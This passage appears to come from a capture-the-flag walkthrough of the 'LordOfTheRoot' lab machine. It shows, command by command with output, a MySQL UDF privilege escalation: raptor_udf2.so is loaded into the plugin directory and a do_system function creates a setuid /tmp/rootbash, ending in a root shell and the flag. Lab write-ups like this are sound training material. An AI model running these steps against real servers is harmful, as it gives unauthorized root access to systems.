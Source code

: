 		```
	3. Access mysql
		```
		mysql -u root -p darkshadow
		```
	3. Import `raptor_udf.so`
		```
		mysql> create table foo(line blob);
		Query OK, 0 rows affected (0.00 sec)
		
		mysql> insert into foo values(load_file('/tmp/raptor_udf2.so'));
		Query OK, 1 row affected (0.00 sec)

		mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
		Query OK, 1 row affected (0.00 sec)

		mysql> create function do_system returns integer soname 'raptor_udf2.so';
		Query OK, 0 rows affected (0.00 sec)
		
		mysql> select * from mysql.func;
		+-----------+-----+----------------+----------+
		| name      | ret | dl             | type     |
		+-----------+-----+----------------+----------+
		| do_system |   2 | raptor_udf2.so | function |
		+-----------+-----+----------------+----------+
		1 row in set (0.00 sec)
		```
	4. Create rootbash
		```
		select do_system('cp /bin/bash /tmp/rootbash; chmod u+s /tmp/rootbash');
		```
		![](images/Pasted%20image%2020220125162255.png)
9. Check if `rootbash` exists
	```
	smeagol@LordOfTheRoot:/tmp$ ls -la
	total 1004
	drwxrwxrwt  4 root    root      4096 Jan 25 08:57 .
	drwxr-xr-x 23 root    root      4096 Sep 22  2015 ..
	drwxrwxrwt  2 root    root      4096 Jan 25 07:52 .ICE-unix
	-rw-rw-r--  1 smeagol smeagol   3314 Jan 25 00:27 raptor_udf2.c
	-rw-rw-r--  1 smeagol smeagol   3192 Jan 25 08:46 raptor_udf2.o
	-rwxrwxr-x  1 smeagol smeagol   8418 Jan 25 08:46 raptor_udf2.so
	-rwsr-s--x  1 root    root    986672 Jan 25 08:56 rootbash
	-r--r--r--  1 root    root        11 Jan 25 07:52 .X0-lock
	drwxrwxrwt  2 root    root      4096 Jan 25 07:52 .X11-unix
	smeagol@LordOfTheRoot:/tmp$ 
	```
10. Obtain root shell
	![](images/Pasted%20image%2020220125162422.png)
11. Flag
	```
	rootbash-4.3# cat Flag.txt 
	“There is only one Lord of the Ring, only one who can bend it to his will. And he does not share power.”
	– Gandalf
	rootbash-4.3# 
	```
